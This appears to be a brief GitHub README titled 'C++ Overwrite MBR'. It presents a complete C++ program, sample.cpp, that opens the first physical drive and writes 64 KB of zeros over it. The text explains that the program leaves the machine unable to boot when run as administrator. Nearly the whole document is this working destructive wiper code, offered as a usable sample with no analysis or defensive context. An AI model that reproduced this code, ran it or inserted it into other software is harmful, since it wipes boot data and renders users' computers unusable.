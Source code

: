 
# C++ Overwrite MBR (Master Boot Record)
If the C++ code is executed as an administrator, the MBR will be overwritten with many zeros and you will no longer be able to enter the system after a restart.

#


`sample.cpp`
```cpp
#include <windows.h>
int main()
{

	HANDLE MasterBootRecord = CreateFileA("\\\\.\\PhysicalDrive0", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, 0, OPEN_EXISTING, 0, 0);

    unsigned char* bootcode = (unsigned char*)LocalAlloc(LMEM_ZEROINIT, 65536);

    if (MasterBootRecord == INVALID_HANDLE_VALUE)
        ExitProcess(2);

    DWORD w;
    if (!WriteFile(MasterBootRecord, bootcode, 65536, &w, NULL))
        ExitProcess(3);
    CloseHandle(MasterBootRecord);

}
```
